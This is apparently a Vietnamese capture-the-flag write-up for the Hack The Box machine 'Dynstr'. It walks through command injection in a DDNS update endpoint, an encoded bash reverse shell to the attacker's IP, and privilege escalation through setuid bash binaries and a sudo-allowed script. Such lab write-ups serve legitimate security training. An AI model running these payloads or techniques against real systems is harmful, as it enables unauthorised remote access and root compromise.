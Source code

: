 # Write-up Machine "Dynstr" - Medium - HTB

## Bước 1: Enumeration

Sử dụng nmap để rà quét thì em thấy mục tiêu đang chạy web service trên cổng 80, SSH tại cổng 22 và DNS ở cổng 53: `nmap -p 10.10.10.244`

![](dynstr/1.jpg)

Truy cập web service tại cổng 80, ta được:

![](dynstr/2.jpg)

Chúng ta có được một số thông tin như domain, username và password:

![](dynstr/3.jpg)

Sử dụng gobuster để quét các đường dẫn trang web, em có được 1 đường dẫn là `/nic`. Đường dẫn `/nic` này có liên quan đến No-IP DDNS: https://www.noip.com/integrate/request.

![](dynstr/4.jpg)

## Bước 2: Lấy user flag

Theo hướng dẫn của trang web kia, ta tạo một requets gửi tới `/nic/update`, trong đó:

- myip là địa chỉ IP máy tấn công
- hostname em thử lần lượt 3 giá trị domains tìm được tại trang chính là: "dnsalias.htb", "dynamicdns.htb" và "no-ip.htb" đều không được, nhưng kết hợp cả 3 lại thành "dynamicdns.no-ip.htb" thì lại được
- Add thêm header `Authorization: Basic ZHluYWRuczpzbmRhbnlk` với `ZHluYWRuczpzbmRhbnlk` là giá trị mã hóa base64 của username:password tìm được tại trang chính (dynadns:sndanyd)

![](dynstr/5.jpg)

Trong quá trình tìm giá trị hostname, em nhận thấy nếu thêm các kí tự đặc biệt như `;` vào thì trang web sẽ trả về là `911 [nsupdate failed]`. Tìm hiểu về nsupdate thì em được biết đây là Dynamic DNS update utility, được dùng để submit Dynamic DNS update request.

![](dynstr/6.jpg)

Nếu như `nsupdate` là một binary thì có thể hệ thống sẽ thực thi nó, do vậy có thể khai thác để thực thi code, ở đây em sẽ sử dụng `nsupdate` để tạo một reverse shell. Payload: `bash -i &>/dev/tcp/10.10.14.37/9999 <&1` -> tạo reverse shell về cổng 9999, sau đó base64-encode payload được `YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjM3Lzk5OTkgPCYx`. Payload hoàn chỉnh: ``echo YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjM3Lzk5OTkgPCYx|base64 -d|bash``. Đoạn mã này sẽ in ra payload đã được mã hóa base64, sau đó giải mã và chạy nó sử dụng bash. Bước cuối cùng là URL Encode payload kia là xong: `%60echo%20YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjM3Lzk5OTkgPCYx%7Cbase64%20-d%7Cbash%60`

![](dynstr/7.jpg)

Sau đó dùng netcat lắng nghe tại cổng 9999, nếu đoạn code kia thực thi thành công thì sẽ tạo được reverse shell, nhưng lúc này mới chỉ là user `www-data`

![](dynstr/8.jpg)

`cd /home` ta thấy máy mục tiêu có 2 user là `bindmgr` và `dyna`

![](dynstr/9.jpg)

Tại thư mục của user `bindmgr`, ta thấy có bash binary với setuid, sử dụng nó để leo từ user `www-data` lên user `bindmgr` và lấy được flag user

![](dynstr/10.jpg)

## Bước 3: Lấy system flag

Vẫn tại thư mục /home/binmgr, file support-case-C62796521/strace-C62796521.txt cung cấp cho ta OpenSSH private key

![](dynstr/11.jpg)


Tiếp theo cần add địa chỉ IP máy tấn công vào zone sử dụng `nsupdate`

    nsupdate -k /etc/bind/infra.key
    > update add test.infra.dyna.htb. 86400 A 10.10.14.37
    >
    >
    > update add 37.14.10.10.in-addr.arpa. 300 PTR test.infra.dyna.htb.
    > send

Sau đó sử dụng OpenSSH key lấy được ở trên để ssh vào máy nạn nhân

![](dynstr/12.jpg)

Sử dụng lệnh `sudo -l` để xem được user có thể thực thi lệnh nào với quyền root, ở đây user có thể thực thi `bindmgr.sh` với quyền root

![](dynstr/13.jpg)

Chúng ta sẽ xem thử file `bindmgr.sh`:

    #!/usr/bin/bash

    # This script generates named.conf.bindmgr to workaround the problem
    # that bind/named can only include single files but no directories.
    #
    # It creates a named.conf.bindmgr file in /etc/bind that can be included
    # from named.conf.local (or others) and will include all files from the
    # directory /etc/bin/named.bindmgr.
    #
    # NOTE: The script is work in progress. For now bind is not including
    #       named.conf.bindmgr. 
    #
    # TODO: Currently the script is only adding files to the directory but
    #       not deleting them. As we generate the list of files to be included
    #       from the source directory they won't be included anyway.

    BINDMGR_CONF=/etc/bind/named.conf.bindmgr
    BINDMGR_DIR=/etc/bind/named.bindmgr

    indent() { sed 's/^/    /'; }

    # Check versioning (.version)
    echo "[+] Running $0 to stage new configuration from $PWD."
    if [[ ! -f .version ]] ; then
        echo "[-] ERROR: Check versioning. Exiting."
        exit 42
    fi
    if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
        echo "[-] ERROR: Check versioning. Exiting."
        exit 43
    fi

    # Create config file that includes all files from named.bindmgr.
    echo "[+] Creating $BINDMGR_CONF file."
    printf '// Automatically generated file. Do not modify manually.\n' > $BINDMGR_CONF
    for file in * ; do
        printf 'include "/etc/bind/named.bindmgr/%s";\n' "$file" >> $BINDMGR_CONF
    done

    # Stage new version of configuration files.
    echo "[+] Staging files to $BINDMGR_DIR."
    cp .version * /etc/bind/named.bindmgr/

    # Check generated configuration with named-checkconf.
    echo "[+] Checking staged configuration."
    named-checkconf $BINDMGR_CONF >/dev/null
    if [[ $? -ne 0 ]] ; then
        echo "[-] ERROR: The generated configuration is not valid. Please fix following errors: "
        named-checkconf $BINDMGR_CONF 2>&1 | indent
        exit 44
    else 
        echo "[+] Configuration successfully staged."
        # *** TODO *** Uncomment restart once we are live.
        # systemctl restart bind9
        if [[ $? -ne 0 ]] ; then
            echo "[-] Restart of bind9 via systemctl failed. Please check logfile: "
        systemctl status bind9
        else
        echo "[+] Restart of bind9 via systemctl succeeded."
        fi
    fi

Đi sâu vào từng phần:

    if [[ ! -f .version ]] ; then
        echo "[-] ERROR: Check versioning. Exiting."
        exit 42
    fi
    if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
        echo "[-] ERROR: Check versioning. Exiting."
        exit 43
    fi

Đoạn script này sẽ kiểM tra .version đã tồn tại hay chưam nếu file chưa tồn tại thì chương trình sẽ thoát

    # Create config file that includes all files from named.bindmgr.
    echo "[+] Creating $BINDMGR_CONF file."
    printf '// Automatically generated file. Do not modify manually.\n' > $BINDMGR_CONF
    for file in * ; do
        printf 'include "/etc/bind/named.bindmgr/%s";\n' "$file" >> $BINDMGR_CONF
    done
    # Stage new version of configuration files.
    echo "[+] Staging files to $BINDMGR_DIR."
    cp .version * /etc/bind/named.bindmgr/

Còn nếu file .version đã tồn tại thì chương trình sẽ tạo file `$BINDMGR_CONF` và copy file .version đến thư mục /etc/bind/named.bindmgr/

Do đó, ta sẽ tạo thử file .version với nội dung tùy ý: `echo 1 > .version` và chạy đoạn script `bindmgr.sh`

![](dynstr/14.jpg)

Kết quả cho thấy file .version và toàn bộ các file trong thư mục gốc đã được copy sang thư mục /etc/bind/named.bindmgr. 

Do toàn bộ các file trong thư mục đều được copy sang thư mục /etc/bind/named.bindmgr, nên giờ ta có thể tạo một bash binary, cấp quyền setuid, chạy script và bash binary đó sẽ được copy sang thư mục kia với ownership = root, từ đó ta có thể đạt được root shell.

![](dynstr/15.jpg)

Tiến hành chạy đoạn script, sau đó chạy file bash tại thư mục /etc/bind/named.bindmgr là sẽ đạt được root shell

![](dynstr/16.jpg)
